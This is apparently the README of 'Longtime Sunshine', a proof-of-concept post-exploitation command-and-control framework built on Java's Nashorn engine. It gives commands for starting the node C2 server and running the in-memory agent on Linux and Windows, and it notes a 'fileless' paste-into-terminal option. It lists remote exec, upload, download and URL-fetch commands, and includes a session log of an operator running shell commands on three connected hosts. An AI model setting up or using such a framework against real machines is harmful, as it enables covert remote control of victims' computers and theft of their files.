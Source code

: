 # Longtime Sunshine

Longtime Sunshine is a proof of concept Nashorn-based post exploitation framework. Nashorn is the JavaScript engine that Oracle introduced in Java 8. The engine's JavaScript implementation lacks any type of socket functionality, but does allow the programmer to invoke Java functionality. Nashorn also has an interesting property in that it can compile a string into memory executable bytecode. As such, a small amount of JavaScript/Java can be leveraged to load scripts from a remote user into memory.

Nashorn can be invoked from the command line using 'jjs'. This tool gets installed along side the JRE.

## Usage
The command and control server, longtime.js, is written using node. Assuming you are using Ubuntu (or another Debian variant) you can execute the following commands to get the server running.

```sh
albinolobster@ubuntu:~/longtime_sunshine$ sudo apt install nodejs npm
albinolobster@ubuntu:~/longtime_sunshine$ npm install
albinolobster@ubuntu:~/longtime_sunshine$ node longtime.js

   01101100 01101111 01101110 01100111 01110100 
   01101001 01101101 01100101 00100000 01110011 
   01110101 01101110 01110011 01101000 01101001 
  ╦  ┌─┐┌┐┌┌─┐┌┬┐┬┌┬┐┌─┐  ╔═╗┬ ┬┌┐┌┌─┐┬ ┬┬┌┐┌┌─┐
  ║  │ │││││ ┬ │ ││││├┤   ╚═╗│ ││││└─┐├─┤││││├┤ 
  ╩═╝└─┘┘└┘└─┘ ┴ ┴┴ ┴└─┘  ╚═╝└─┘┘└┘└─┘┴ ┴┴┘└┘└─┘
   01101110 01100101 00100000 01110101 01110000 
   01101111 01101110 00100000 01101101 01100101 

$
```

Currently, the server is hardcoded to listen on '0.0.0.0:1270'.

The agent, sunshine.js, can be executed using 'jjs' multiple ways. The first, and most obvious, is to simply execute the script:

```sh
albinolobster@ubuntu:~/longtime_sunshine$ jjs sunshine.js &
[1] 30747
albinolobster@ubuntu:~/longtime_sunshine$
```

Similar example except with cmd.exe:

```sh
C:\Program Files\Java\jre.1.8.0_151\bin>jjs C:\Users\albinolobster\Desktop\sunshine.js
```

On the server side you'll see something like this:

```sh
☀  Connection established by 127.0.0.1:47670
$
```

Of course, you can also just copy and paste sunshine.js into the jjs terminal for that true fileless feel, but that isn't really practical if you can't background or hide the terminal.

### Commands

Since this is only a PoC, only a minimal set of commands are implemented.

```sh
$ help
The following commands are supported:

help - this message
exit - exits the terminal
agents - lists the connected agents
agent <int> - begin interaction with the selected agent
```

```sh
$ agent 0
albinolobster@127.0.0.1$ help
The following commands are supported:

help - this message
exit - exits back to the main terminal
exec <args> - executes a shell command via cmd.exe or sh
upload <local file> <remote file> - uploads a local file to the agent
download <remote file> <local file> - downloads a file from the agent
get <url> <remote file> - the agent downloads form the url and creates the remote file
```

### Usage Example

```sh
albinolobster@ubuntu:~/longtime_sunshine$ node longtime.js 

   01101100 01101111 01101110 01100111 01110100 
   01101001 01101101 01100101 00100000 01110011 
   01110101 01101110 01110011 01101000 01101001 
  ╦  ┌─┐┌┐┌┌─┐┌┬┐┬┌┬┐┌─┐  ╔═╗┬ ┬┌┐┌┌─┐┬ ┬┬┌┐┌┌─┐
  ║  │ │││││ ┬ │ ││││├┤   ╚═╗│ ││││└─┐├─┤││││├┤ 
  ╩═╝└─┘┘└┘└─┘ ┴ ┴┴ ┴└─┘  ╚═╝└─┘┘└┘└─┘┴ ┴┴┘└┘└─┘
   01101110 01100101 00100000 01110101 01110000 
   01101111 01101110 00100000 01101101 01100101 

$ 
☀  Connection established by 192.168.1.188:62939
$ 
☀  Connection established by 192.168.1.207:51162
$ 
☀  Connection established by 192.168.1.188:62946
$ agents
=> [0] albinolobster@192.168.1.188:62939 (Mac OS X-10.12.6/x86_64)
=> [1] albinolobster@192.168.1.207:51162 (Windows 10-10.0/amd64)
=> [2] albinolobster@192.168.1.188:62946 (Linux-4.13.0-31-generic/amd64)

$ agent 1

albinolobster@192.168.1.207$ exec cd
C:\Program Files\Java\jre1.8.0_151\bin
albinolobster@192.168.1.207$ exit
$ agent 0
albinolobster@192.168.1.188$ exec uname -a
Darwin mac.westeros 16.7.0 Darwin Kernel Version 16.7.0: Wed Oct  4 00:17:00 PDT 2017; root:xnu-3789.71.6~1/RELEASE_X86_64 x86_64
albinolobster@192.168.1.188$ exit
$ agent 2
albinolobster@192.168.1.188$ exec uname -a
Linux ubuntu 4.13.0-31-generic #34~16.04.1-Ubuntu SMP Fri Jan 19 17:11:01 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
albinolobster@192.168.1.188$ exit
$ 
```
